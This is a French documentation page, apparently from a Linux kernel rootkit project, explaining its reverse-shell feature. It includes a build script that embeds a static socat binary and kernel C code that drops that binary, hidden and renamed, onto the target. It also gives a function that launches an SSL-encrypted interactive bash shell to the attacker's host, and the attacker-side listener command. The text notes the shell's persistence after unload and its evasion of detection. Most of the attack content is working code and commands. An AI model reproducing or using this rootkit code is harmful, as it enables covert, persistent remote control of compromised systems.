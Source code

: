 \page reverse Reverse Shell
\tableofcontents

Dans le cadre de notre projet, nous avons implémenté un reverse shell utilisant `socat` pour établir une connexion chiffrée SSL vers le serveur d'attaque. Le choix de `socat` est motivé par sa capacité à fournir un shell interactif complet, contrairement à des outils plus simples comme `netcat` ou même simplement `bash`.
Afin de pouvoir s'assurer de la présence de `socat` sur le système, nous avons intégré le binaire directement dans le rootkit, ce qui permet de le déposer dynamiquement lors du montage du rootkit. Cela demande d'avoir à disposition une version statique de `socat` embarquant aussi SSL, de dumper ce binaire dans le rootkit afin de pouvoir finalement l'utiliser pour établir le reverse shell.

### Chargement de socat dans le module en tant que payload

Pour charger le binaire `socat` dans le rootkit, nous utilisons un script lors de la compilation du module. Ce script extrait le binaire `socat` et le convertit en un tableau de caractères C, qui est ensuite intégré dans le code source du module.

```bash
generate_socat_h() {
  # if socat file does not exist, download it
  if [ ! -f socat ]; then
    echo "socat binary not found."
    echo "Download static socat binary from github.com/ernw/static-toolbox"
    wget https://github.com/ernw/static-toolbox/releases/download/socat-v1.7.4.4/socat-1.7.4.4-x86_64 -O socat
    if [ $? -ne 0 ]; then
      echo "Failed to download socat binary."
      exit 1
    fi
    echo "Download complete."
  fi
  echo "Hexdumping socat to socat.h"
  xxd -i socat > include/socat.h
}

# Check if socat.h exists
if [ ! -f ./include/socat.h ]; then
  echo "socat.h not found, generating it..."
  generate_socat_h
else
  echo "socat.h already exists, skipping generation."
fi
```

À la suite de cela, nous obtenons finalement un fichier `socat.h` contenant le code suivant :

```c
unsigned char socat[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00,
  // ... (le reste du binaire socat)
};
unsigned long socat_len = 123456; // Longueur du binaire socat
```

### Déchargement du binaire sur la machine cible

Le binaire `socat` est déposé sur la machine cible grâce à la fonction `drop_socat_binaire(void)` :

```c
int drop_socat_binaire(void) {
    if (is_socat_binaire_dropped()) {
        DBG_MSG("drop_socat_binaire: socat binary already dropped\n");
        return SUCCESS;
    }

    struct file *f;
    loff_t pos = 0;

    f = filp_open(SOCAT_BINARY_PATH, O_WRONLY | O_CREAT | O_TRUNC, 0700);
    if (IS_ERR(f)) {
        ERR_MSG("drop_socat_binaire: failed to open file: %ld\n", PTR_ERR(f));
        return -FAILURE;
    }

    unsigned int written = kernel_write(f, socat, socat_len, &pos);
    if (written < 0) {
        ERR_MSG("drop_socat_binaire: kernel_write failed: %u\n", written);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else if (written < socat_len) {
        ERR_MSG("drop_socat_binaire: only %u bytes written, expected %u\n", written, socat_len);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else {
        DBG_MSG("socat written successfully (%u bytes)\n", written);
    }

    filp_close(f, NULL);

    return SUCCESS;
}
```

Cette fonction vérifie d'abord si le binaire a déjà été déposé, puis crée et écrit le contenu du tableau `socat` (contenant le binaire) à l'emplacement défini par `SOCAT_BINARY_PATH`. Elle gère également les erreurs potentielles lors de l'écriture et s'assure que l'intégralité du binaire est bien écrite sur le disque.

> **Obfuscation et discrétion du binaire**
> Par défaut, le fichier `socat` déposé sur la machine cible est renommé avec l'extension `.sysd` afin d'ajouter une première couche d'obfuscation. De plus, il est placé dans le répertoire caché du rootkit, ce qui le rend pratiquement invisible pour un utilisateur ou un administrateur système classique. Ce choix vise à limiter les risques de détection du binaire par des outils d'analyse ou lors d'une inspection manuelle du système de fichiers.

### Exécution du reverse shell
Pour exécuter le reverse shell, nous utilisons la fonction `launch_reverse_shell(char *args)` :

```c
int launch_reverse_shell(char *args) {
  if (!is_socat_binaire_dropped()) {
    ERR_MSG("launch_reverse_shell: socat binary not dropped\n");
    return -FAILURE;
  }

  int port = REVERSE_SHELL_PORT; // Port par defaut

  // Recuperer le port
  if (args && strlen(args) > 0)
    port = simple_strtol(args, NULL, 10);

  // Construire la commande socat avec le port spécifié
  char cmd[256];
  snprintf(cmd, sizeof(cmd), "%s exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:%s:%d,verify=0 &",
          SOCAT_BINARY_PATH, ip, port);

  // Lancer la commande
  int ret_code = exec_str_as_command(cmd, false);

  if (ret_code < 0) {
    ERR_MSG("launch_reverse_shell: failed to start reverse shell on port %d\n", port);
    return ret_code;
  }

  DBG_MSG("launch_reverse_shell: reverse shell started on port %d\n", port);
  return SUCCESS;
}
```

Cette fonction vérifie d'abord que le binaire `socat` a bien été déposé. Elle récupère ensuite le port à utiliser (par défaut ou passé en argument), construit la commande d'exécution du reverse shell avec `socat`, puis l'exécute via `exec_str_as_command`. Les erreurs sont gérées et un message de succès est affiché si le shell est lancé correctement.

**Explication de la commande `socat` utilisée :**
```bash
socat exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:IP:PORT,verify=0 &
```
Cette commande `socat` établit une connexion SSL vers l'IP et le port spécifiés, tout en redirigeant l'entrée et la sortie standard vers un shell interactif `bash`. Les options utilisées sont :
| Option                        | Description                                                                                      |
|-------------------------------|--------------------------------------------------------------------------------------------------|
| `exec:bash -i`              | Exécute un shell interactif.                                                                     |
| `pty`                         | Alloue un pseudo-terminal pour le shell.                                                         |
| `stderr`                      | Redirige les erreurs vers la sortie standard.                                                    |
| `setsid`                      | Détache le processus du terminal.                                                                |
| `sigint`                      | Gère les signaux d'interruption.                                                                 |
| `sane`                        | Réinitialise les paramètres du terminal pour un comportement standard.                           |
| `openssl-connect:IP:PORT`     | Établit une connexion SSL vers l'IP et le port spécifiés.                                        |
| `verify=0`                    | Désactive la vérification du certificat SSL (utile pour les tests, mais à éviter en production). |

En somme, cette commande génère un shell sur mesure permettant ensuite d'ajouter un maximum d'interactivité et de fonctionnalités, tout en étant sécurisé par SSL.

### Reception de la connexion par l'attaquant
Pour recevoir la connexion du reverse shell, l'attaquant doit exécuter la commande suivante sur son serveur :

```bash
socat openssl-listen:9000,reuseaddr,cert="$(pwd)"/server.pem,verify=0 file:"$(tty)",raw,echo=0
```

Explications des options utilisées :
| Option                        | Description                                                                                      |
|-------------------------------|--------------------------------------------------------------------------------------------------|
| `openssl-listen:9000`         | Écoute les connexions entrantes sur le port 9000 en utilisant SSL.                               |
| `reuseaddr`                   | Permet de réutiliser l'adresse et le port, utile pour éviter les erreurs de "port déjà utilisé". |
| `cert="$(pwd)"/server.pem`    | Spécifie le certificat SSL à utiliser pour la connexion.                                         |
| `verify=0`                    | Désactive la vérification du certificat SSL (utile pour les tests, mais à éviter en production). |
| `file:"$(tty)",raw,echo=0`    | Redirige l'entrée/sortie vers le terminal actuel, en mode brut et sans écho.                      |

Dans le cadre de notre projet, nous avons automatisé le lancement de cette commande depuis l'interface web de l'attaquant, permettant ainsi de démarrer le reverse shell en un clic. 

> **Note**  
> Pour plus d'informations concernant le lancement côté attaquant, voir la section [Dashboard](#reverse-shell).


> **⚠️ Attention**  
> Le processus `socat` étant lancé dans un thread distinct du thread principal du module, il continue de s'exécuter même après le déchargement du rootkit. Cela présente l'avantage de maintenir un accès persistant à la machine cible, même si le rootkit doit être temporairement désactivé ou relancé. Cependant, il est important de garder à l'esprit que ce comportement peut laisser des traces (processus `socat` actif) et doit donc être pris en compte lors de l'utilisation ou de la suppression du module.

<img 
  src="logo_no_text.png" 
  style="
  display: block;
  margin: 100px auto;
  width: 30%;
  overflow: hidden;
  "
/>